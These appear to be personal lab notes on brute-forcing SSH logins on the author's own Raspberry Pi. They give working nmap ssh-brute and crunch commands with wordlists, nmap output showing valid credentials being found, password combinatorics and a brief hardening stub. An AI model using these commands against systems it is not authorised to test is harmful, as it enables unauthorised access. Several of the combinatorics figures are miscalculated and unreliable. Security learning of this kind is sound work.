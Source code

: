 # Brute Force Attack Raspberry Pi

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```

## Check if Port 22 is open

```
nmap -p 22 -open <RASPBERRY-PI-IP-ADDRESS>
```

## Create User File

users.txt:

```
user
admin
root
pi
```

## Create Password File

passwords.txt:

```
123456
root
admin
pi
passwort
```

## Generate Password File with Crunch

```
brew install crunch
```

Create file with generated passwords between 3 and 6 characters:

```
crunch 3 6 0123456789abcdef -o 6chars.txt
```

Run brute force attack:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt <RASPBERRY-PI-IP-ADDRESS>
```

Ergebnis:

```
nmap -p 22 --script ssh-brute --script-args userdb=u.txt,passdb=p.txt 192.168.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 16:23 CET
NSE: [ssh-brute] Trying username/password pair: foo:foo
NSE: [ssh-brute] Trying username/password pair: barz:barz
NSE: [ssh-brute] Trying username/password pair: leo:leo
foo
NSE: [ssh-brute] Trying username/password pair: foo:hi
hi
NSE: [ssh-brute] Trying username/password pair: barz:hi
NSE: [ssh-brute] Trying username/password pair: leo:hi
NSE: [ssh-brute] Trying username/password pair: foo:for
NSE: [ssh-brute] Trying username/password pair: barz:for
NSE: [ssh-brute] Trying username/password pair: leo:for
NSE: [ssh-brute] Trying username/password pair: foo:1234
NSE: [ssh-brute] Trying username/password pair: barz:1234
NSE: [ssh-brute] Trying username/password pair: leo:1234
Nmap scan report for raspberrypi (192.168.0.217)
Host is up (0.013s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     leo:1234 - Valid credentials
|_  Statistics: Performed 12 guesses in 9 seconds, average tps: 1.3

Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

NMAP with no time limit:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt,unpwdb.timelimit=0 192.168.0.217
```

http://blog.wenzlaff.de/?p=16896

Anzahl Möglichkeiten:

- a-z: 26^4 = 456972
- a-z & A-Z 52^4 = 7311616
- a-z & A-Z & 0-9 = 13845841

## Combinatorics

Why is the math behind this important?

- characters: 1 / character-set: 0-9 = 10 possible passwords
- characters: 2 / character-set: 0-9 = 10^2 = 100 possible passwords
- characters: 3 / character-set: 0-9 = 10^3 = 1000 possible passwords
- characters: 4 / character-set: 0-9 = 100^4 = 10000 possible passwords
- ...
- characters: 6 / character-set: a-z A-Z 0-9 = 62^6 =

-> <CHARACTER-SET> ^ <NUMBER-OF-CHARACTERS>

Further reading: https://www.scientificamerican.com/article/the-mathematics-of-hacking-passwords/

# Lessons Learned
  
- Brute force attacks do not scale if the password and the used alphabet have a sufficient size
- Trying all username/password combinations 
  
# Harden Raspberry Pi

## Firewall

### Install

https://www.blog.berrybase.de/blog/2022/02/23/den-raspberry-pi-absichern/#:~:text=Linux%20hat%20hierf%C3%BCr%20die%20Firewall,Befehl%20aus%20Code%2016%20installieren

